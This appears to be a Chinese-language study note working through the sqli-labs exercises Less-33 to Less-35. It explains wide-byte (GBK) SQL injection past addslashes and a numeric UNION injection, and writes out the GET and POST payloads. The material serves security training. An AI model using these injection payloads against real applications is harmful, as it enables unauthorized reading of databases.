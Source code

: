 宽字节注入

## less33

mysql_query("SET NAMES gbk");

$id=check_addslashes($_GET['id']);

返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（`'`）、双引号（`"`）、反斜线（`\`）与 NUL（**`NULL`** 字符）。

所以还是宽字节注入

~~~
%df' union select 1,database(),3;%23
~~~

## less34

uname=%df' union select 1,database();%23&passwd=admin&submit=Submit

只不过是换成了post

## less35

这个是数字型的，所以addslashes函数也就没那么重要了，构造payload

SELECT * FROM users WHERE id=1 union select 1,database(),3;

发现不能获得，

SELECT * FROM users WHERE id=-1 union select 1,database(),3;

id加了个负号，发现可以获得，好奇。。。就去mysql试了试；

![image-20200914160635838](sql-lab.assets/image-20200914160635838.png)
